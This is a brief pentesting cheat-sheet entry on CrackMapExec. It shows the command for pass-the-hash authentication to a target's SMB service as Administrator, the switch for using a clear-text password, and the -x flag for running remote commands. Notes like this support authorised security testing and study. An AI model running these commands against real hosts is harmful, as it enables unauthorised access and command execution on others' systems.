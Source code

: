 # Crackmapexec

* <mark style="color:yellow;">crackmapexec smb targetIP -u Administrator -H NTLMHASH</mark>

You can also pass a clear text password by changing the "<mark style="color:red;">-H</mark>" to "<mark style="color:red;">-p</mark>".

#### To execute commands add:

* <mark style="color:yellow;">-x commandtorun</mark>
